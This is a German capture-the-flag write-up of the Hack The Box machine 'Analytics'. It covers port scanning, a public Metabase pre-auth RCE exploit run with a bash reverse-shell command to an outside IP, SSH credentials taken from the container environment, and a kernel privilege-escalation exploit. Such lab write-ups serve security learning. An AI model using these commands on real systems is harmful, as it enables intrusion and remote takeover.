





#writeup/provider-box

Erstellt am 2024-08-10

## Box Info 

| Autor | Provider | OS  | Typ | Schwierigkeit |
| --- | --- | --- | --- | ------------- |
| idle | HTB | :SiLinux: | Box | ? |

```
name:   analytics
adress: 
```

---
## Enumeration

Mit `nmap` können die offenen Ports enumeriert werden:

```bash
nmap -sT -p- --min-rate 1500 -v TARGETIP -oA nmap/full_tcp
```



Die Frontpage, die der Webserver auf Port 80 bereitstellt, sieht ziemlich langweilig aus. Bietet aber eine Login Möglichkeit an.


Der Login verlinkt zu der Subdomain `data.analytical.htb`.



Die Login Seite lässt auf die Verwendung von `Metabase` schließen.
Nachforschungen ergaben einen möglichen Exploit beschrieben in [Metabase Pre-Auth RCE](https://infosecwriteups.com/cve-2023-38646-metabase-pre-auth-rce-866220684396)von shamooo sowie einen Exploit auf [Github](https://github.com/kh4sh3i/CVE-2023-38646).

## Foothold

Nach einigem Herumprobieren mit dem Exploit, stellt sich heraus, dass der falsche Payload benutzt wird. Eine Alternative bietet Pyr0sec in seinem [Github](https://github.com/Pyr0sec/CVE-2023-38646)] an.

Listener starten und exploiten.
```bash
python exploit.py -u http://data.analytical.htb -t 249fa03d-fd94-4d5b-b94f-b4ebf3df681f -c 'bash -i >& /dev/tcp/10.10.14.7/9001 0>&1'
```

Der Listener empfängt eine Verbindung als `metabase` user.



## Privesc

### Container escape

Nach kurzer Enumeration des Systems, stellt sich heraus, dass der Webserver in einem Container läuft. Das Überprüfen des Environments mit dem `env` Befehl offenbart eine Benutzer Passwort Kennung, die per SSH ausprobiert werden kann.

<details>
<summary>Spoiler warning: SSH-Creds</summary>
metalytics:An4lytics_ds20223#
</details>

Nach Login liegt im Homeverzeichnis die Userflag.

### Root

Mit Zugriff zur tatsächlichen Maschine ist eine Enumeration des Systems mit `linpeas` möglich. Das Resultat der Enumeration ist eine anfällige Ubuntu Kernel Version. Der entsprechende Exploit ist in g1vis Github zu finden [CVE-2023-2640 & CVE-2023-32629](https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629).

Der Exploit wird auf den Server transferiert und ausgeführt.

  

Anschließend ist es möglich die Rootflag zu exfiltrieren.




---
## Todo's

- [x] analytics publish me ➕ 2024-08-10 ✅ 2024-08-10
- [x] analytics pwnd ➕ 2024-08-10 ✅ 2024-08-10
- [x] analytics User Flag ➕ 2024-08-10 ✅ 2024-08-10
- [x] analytics Root Flag ➕ 2024-08-10 ✅ 2024-08-10